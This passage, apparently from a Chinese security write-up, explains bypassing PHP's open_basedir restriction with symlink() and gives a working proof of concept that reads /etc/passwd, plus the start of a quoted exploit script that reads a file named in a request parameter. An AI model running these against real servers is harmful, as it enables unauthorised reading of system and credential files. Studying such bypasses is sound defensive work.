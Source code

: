 关于这个解法我不打算去看因为这个也是好像绕不了 open\_basedir 的  
引用：“这种方法也只能列出根目录和 open\_basedir 允许目录下的文件。“

# symlink 绕过

`symlink()`函数创建一个从指定名称连接的现存目标文件开始的符号连接。： [https://www.php.net/manual/zh/function.symlink.php](https://www.php.net/manual/zh/function.symlink.php)  
用法：  
symlink(string $target, string $link): bool

```php
<?php
mkdir("A");
chdir("A");
mkdir("B");
chdir("B");
mkdir("C");
chdir("C");
mkdir("D");
chdir("D");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("A/B/C/D","SD");
symlink("SD/../../../../etc/passwd","POC");
unlink("SD");
mkdir("SD");
?>
```

这里的原理就是通过软连接作为一个桥梁来进行绕过  
具体的思路如下：

-   创建了 A/B/C/D 这个目录
-   创建 SD 软链接到目录 A/B/C/D
-   然后让 POC 指向 SD 上面的目录这个时候因为返回后../../../../刚好回到 open\_basedir 限制的 html 目录下面所以这里没毛病
-   然后删除了 SD 软链接又创建了一个文件夹这个时候 POC 指向的就是： 
    **var/www/html/SD/../../../../etc/passwd**从而进行绕过（这个思路确实好玩）  
    exp

```php
<?php
/* * by phithon * From https://www.leavesongs.com * detail: http://cxsecurity.com/issue/WLB-2009110068 */
header('content-type: text/plain');
error_reporting(-1);
ini_set('display_errors', TRUE);
printf("open_basedir: %s\nphp_version: %s\n", ini_get('open_basedir'), phpversion());
printf("disable_functions: %s\n", ini_get('disable_functions'));
$file = str_replace('\\', '/', isset($_REQUEST['file']) ? $_REQUEST['file'] : '/etc/passwd');
$relat_file = getRelativePath(__FILE__, $file);
$paths = explode('/', $file);
$name = mt_rand() % 999;
$exp = getRandStr();
mkdir($name);
chdir($name);
for($i = 1 ; $i < count($paths) - 1 ; $i++){
    mkdir($paths[$i]);
    chdir($paths[$i]);
}
mkdir($paths[$i]);
for ($i -= 1; $i > 0; $i--) { 
    chdir('..');
}
```